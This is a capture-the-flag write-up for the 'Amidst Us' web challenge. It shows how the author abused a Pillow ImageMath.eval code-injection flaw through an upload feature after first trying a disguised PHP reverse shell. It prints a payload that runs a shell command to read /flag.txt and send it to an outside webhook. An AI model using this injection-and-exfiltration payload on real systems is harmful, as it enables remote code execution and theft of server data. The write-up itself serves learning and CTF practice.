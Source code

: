 # Amidst Us

We start off with a weird page where we can select a color that does not seem to do anything:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When clicking in the spaceship at the center of the website we can click on it and upload a file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If i upload a php reverseshell.php i get blocked but if i submit a reverseshell.php.jpg it seems to send at least a request:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i did not manage to do anything with that so i came back and tried to go slower:

I just go and look at how the app reacts when i upload a normal hackergobrrr.png image:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i went and looked at how the image was treated since there was some sort of b64 string directly related to it and saw this:



and when i googled what this was i saw the first link that seemed interesting:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and indeed we have this function:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after googling around this exploit i found this:

{% embed url="https://github.com/advisories/GHSA-8vj2-vxx3-667w" %}

`PIL.ImageMath.eval` in Pillow before 9.0.0 allows evaluation of arbitrary expressions, such as ones that use the Python exec method `ImageMath.eval("exec(exit())")`.

so we need to take that and craft something that would lead to RCE or file reading:

```
ImageMath.eval("__import__('os').system('wget https://webhook.site/aa31223b-35e4-4679-aa22-8ea194c82870?flag=$(cat /flag.txt)')")
```

i put my payload in the eval function so everyone can see how the imagemath would handle it, so here we import os and send a request to a webhook server that i own and append the flag to the request so we can exfiltrate it:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I replace one of the 3 values with my payload and hit send and look at my webhook:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's flagged&#x20;
